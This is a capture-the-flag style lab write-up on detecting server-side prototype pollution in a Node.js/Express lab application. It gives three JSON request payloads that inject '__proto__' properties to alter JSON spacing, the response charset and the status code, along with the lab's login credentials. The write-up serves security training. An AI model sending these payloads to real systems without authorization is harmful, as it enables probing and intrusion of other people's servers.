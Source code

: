 # Detecting server-side prototype pollution without polluted property reflection
# Objective
This lab is built on Node.js and the Express framework. It is vulnerable to server-side prototype pollution because it unsafely merges user-controllable input into a server-side JavaScript object.

To solve the lab, confirm the vulnerability by polluting `Object.prototype` in a way that triggers a noticeable but non-destructive change in the server's behavior. As this lab is designed to help you practice non-destructive detection techniques, you don't need to progress to exploitation.

You can log in to your own account with the following credentials: `wiener:peter`


# Solution
## Analysis
Endpoint `/my-account/change-address` allows given user to specify his billing and delivery address.

|![](Images/image-44.png)|
|:--:| 
| *Change billing and delivery address information request* |

## Exploitation
The following payloads can be used to test for potential server side prototype pollution:

- JSON spaces override
```json
{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "sessionId": "jMHEAuCX6uUeZUs4ZoXMD59bYgjMhVnq",
  "__proto__": {
    "json spaces": 10
  }
}
```

- Charset override
```json
{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "+AGYAbwBv-",
  "sessionId": "jMHEAuCX6uUeZUs4ZoXMD59bYgjMhVnq",
  "__proto__": {
    "content-type": "application/json; charset=utf-7"
  }
}
```

|![](Images/image-45.png)|
|:--:| 
| *Prototype pollution via charset override* |
|![](Images/image-46.png)|
| *Prototype pollution via charset override - payload was correctly decoded* |

- Status code override
```json
{
  "address_line_1": "Wiener HQ",
  "address_line_2": "One Wiener Way",
  "city": "Wienerville",
  "postcode": "BU1 1RP",
  "country": "UK",
  "sessionId": "jMHEAuCX6uUeZUs4ZoXMD59bYgjMhVnq",
  "__proto__": {
    "status": 499
  }
}
```
|![](Images/image-47.png)|
|:--:| 
| *Prototype pollution via status code override* |
|![](Images/image-48.png)|
| *Prototype pollution via status code override - Error - custom status code returned* |